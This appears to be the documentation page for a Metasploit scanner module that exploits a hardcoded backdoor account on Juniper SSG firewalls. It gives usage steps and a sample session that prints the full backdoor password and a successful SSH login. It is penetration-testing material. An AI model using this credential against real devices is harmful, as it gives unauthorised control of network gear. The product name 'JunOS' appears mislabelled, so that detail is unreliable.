 ## Vulnerable Application

  Juniper JunOS between 6.2.0r15 to 6.2.0r18 and 6.3.0r12 to 6.3.0r20 are vulnerable.
  
  A vulnerable copy of the firmware is available for a Juiper SSG5/SSG20 (v6.3.0r19.0): [here](https://github.com/h00die/MSF-Testing-Scripts/tree/master/juniper_firmware)

  For verification puposes, an example vuln python script is also available [here](https://github.com/h00die/MSF-Testing-Scripts)

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ` use auxiliary/scanner/ssh/juniper_backdoor`
  4. Do: `set rhosts`
  5. Do: `run`
  6. You should see: `[+] 192.168.1.1:22 - Logged in with backdoor account admin:<<< %s(un='%s') = %u`

## Scenarios

  Example run against a Juniper SSG5 with vuln firmware from above link.

```
msf > use auxiliary/scanner/ssh/juniper_backdoor
msf auxiliary(juniper_backdoor) > set rhosts 192.168.1.1
rhosts => 192.168.1.1
msf auxiliary(juniper_backdoor) > set verbose true
verbose => true
msf auxiliary(juniper_backdoor) > run

[+] 192.168.1.1:22 - Logged in with backdoor account admin:<<< %s(un='%s') = %u
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
